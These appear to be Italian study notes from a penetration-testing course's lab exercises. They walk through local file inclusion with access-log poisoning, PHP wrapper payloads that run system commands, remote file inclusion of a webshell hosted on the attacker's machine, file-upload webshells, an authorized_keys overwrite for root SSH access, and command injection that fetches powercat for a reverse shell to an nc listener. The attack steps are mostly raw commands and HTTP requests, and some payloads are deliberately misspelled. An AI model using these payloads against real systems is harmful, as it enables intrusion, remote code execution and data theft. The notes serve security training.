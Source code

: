 ## 9.2.1 Local File Inclusion (LFI)

```bash
curl http://mountaindesserts.com/meteor/index.php?page=admin.php
```

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

Richiesta catturata su burp:
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

**Log Poisoning**, medicando la richiesta e aggiungendo codice eseguibile:
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 <?php 3ch0 syst3m(----cmd-----); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Nel laboratorio successivo veniva richiesto di operare in ambiente windows:
```bash
GET /meteor/index.php?page=../../../../../../../../../xampp\apache\logs\access.log&cmd=type+hopefullynobodyfindsthisfilebecauseitssupersecret.txt HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http:192.168.235.193/meteor/index.php?page=../../../../../../../../../xampp\apache\logs\access.log
Upgrade-Insecure-Requests: 1
```

## 9.2.2. PHP Wrappers

```bash
curl http://$IP/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php

echo "e9yuh44UHIUBFSBDKJKJB" | base64 -d

curl "http://$IP/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

curl "http://$IP/meteor/index.php?page=data://text/plain,<?php%203cho%20sist3m('uname+-a');?>"
```

## 9.2.3. Remote File Inclusion (RFI)

```bash
cd /usr/share/webshells/php

python3 -m http.server 9999

curl "http://$IP/meteor/index.php?page=http://$MY_IP:9999/BACK.PHP&cmd=...
```
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

## 9.3.1. Using Executable Files

Nel primo esercizio era richiesto di exploitare la vulnerabilità di file upload. Per farlo bisognava semplicemente caricare un file presente nella cartella /usr/share/webshells/php e modificare l'estenzione da php a pHP.

Se si volesse ottenere una reverse-shell, si potrebbe procedere nel seguente modo:
![[Using_Executable_Files_1.png]]
![[Using_Executable_Files_2.png]]

## 9.3.2. Using Non-Executable Files

In questo caso, non potendo caricare direttamente una webshell, l'obiettivo era quello di sovarscrivere il file **authorized_keys** file attraverso il meccanismo del file upload.

![[Using_Non-ExecutableFiles_1.png]]

```bash
cp fileup > authorized_keys
```

![[Using_Non-ExecutableFiles_2.png]]

```bash
ssh -p 2222 root@$IP -i fileup
```

## 9.4.1. OS Command Injection

Il primo lab consisteva nel sfruttare una vulnerabilità di command injection combinando un comando consentito (git), con qualcosa che ci potesse permettere di ottenere una reverse shell. 
Molto utile questo code snipper per capire dove il codice è eseguito:

![[OS_Command_Injection_1.png]]

Successivamente è stato copiato questo file nella directory dove si stava operando, avviando un server python:

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

python3 -m http.server 80
```

Poi è stato avviato un listener:

```bash
nc -nvlp 4444
```

Ed è stato iniettato il comando per scaricare powercat ed eseguire una reverse shell:

![[OS_Command_Injection_2.png]]

## CAPSTONE

- Start by using nmap to find open ports, with a focus on HTTP ports.
- Visit these HTTP ports and explore the main page for potential vulnerabilities.
- To upload files successfully, identify the web server type and compatible file types for server-side scripting (ASPX)
- After uploading a file to the target, the index page provides hints on locating your webshell. (PORT 80 MAIN DIRECTORY)
- Once you access your webshell, the final step is to read the flag, typically found under the C:\inetpub\ directory.